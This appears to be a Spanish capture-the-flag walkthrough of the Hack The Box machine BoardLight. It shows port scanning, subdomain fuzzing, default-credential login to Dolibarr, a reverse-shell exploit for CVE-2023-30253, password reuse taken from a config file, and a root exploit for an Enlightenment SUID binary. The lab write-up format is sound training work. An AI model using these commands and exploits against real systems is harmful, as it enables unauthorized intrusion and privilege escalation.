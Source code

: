 # BoardLight


• Subdomain Enumeration
• Dolibarr 17.0.0 Exploitation - CVE-2023-30253
• Information Leakage (User Pivoting)
• Enlightenment SUID Binary Exploitation [Privilege Escalation]

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.11 -oG allports
```

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p22,80 10.10.10.245 -oN targeted
```

Sin embargo no en

## Enumeración de sudominios

Despues de hacer un escaneo de dominios y subdominios he encontrado este subdominio interesante con el siguiente comando:

```shell
wfuzz -c --hl=517 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.board.htb" http://board.htb
```

```shell
000000072:   200        149 L    504 W      6360 Ch     "crm"   
```

## Inspeccionamos la página web

Nos encontramos un panel de login de un ERP/CRM usa la tecnologia `Doliberr 17.0.0.` 

![alt text](Imagenes/Board.png)

Buscando las credenciales por defecto vemos que podemos usar `admin:admin`y tras probarlo accedemos a la panel y exploramos que tiene , sin embargo no aparece nada interesante.

por lo tanto vamos a buscar si algun exploit relacionado para la version que tenemos.


##  Intrusión - Explotamos CVE-2023-30253
Encontramos un exploit que podemos utilizar para la version en la que nos entabla una shell por lo tanto vamos a intentar utilizarla.

```
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```
Para ello lo hacemos de la siguiente manera:

```shell
python3 exploit.py http://example.com login passsword 127.0.0.1 9001
```
Por último obtenemos la shell
 
```shell
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
[!] If you have not received the shell, please check your login and password

```
## User pivoting

Aunque tenemos acceso al servidor nuestro ususario es `www-data`este ususario no nos sirve para ver la flag de user.txt por lo tanto tenemos que mudarnos al ususario `Larissa` podemos intentar varias opciones:

- La primera es probar fuerza bruta en el servicio `ssh` usando el  diccionario `rockyou` este diccionario tiene multiples contraseñas para probar,sin embargo vemos que no encunetra nada 

- La segunda forma es ver si existen ficheros de configuración y nos encontremos con algún usuario y contraseñas .

De esta manera podemos compronbar que en el achivo de configuración nos aparece un usuario y una contraseña

```
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

Si probamos esta contraseña vemos que es la del usuario Larissa

## Escalada de privilegios:

Comprobamos que podemos hacer los comandos sudo -l este comando como otras veces nos reporta si existe algun fichero que podemos ejecutar como root.

Sin embargo no encontramos nada ,por lo tanto vamos a ver si existen ficheros con permisos SUID o capabilities sospechosas para escalar los privilegios.

Si ejecutamos el comando para listar los binarios que pueden permitir el escaldo nos pecatamos de uno en especial: 

```shell
find / -perm -4000 -user root 2>/dev/null
```

```shell
...
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
... 
```
Podemos ver que el sercicio `enlightenment` es vulnerable comprobamos la version es 0.23.1

## Explotamos el CV-2022-37706
Como se puede ver ene el siguiente enlace encontramos que exploit vulnerable que nos puede devolver una shell con privilegios abusando de este servicio 
```
https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit?tab=readme-ov-file
```
Para ello generamos el fichero en nuestro directorio `tmp` y una vez que tenemos esto
ejecutamos el script:

```shell
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root

```




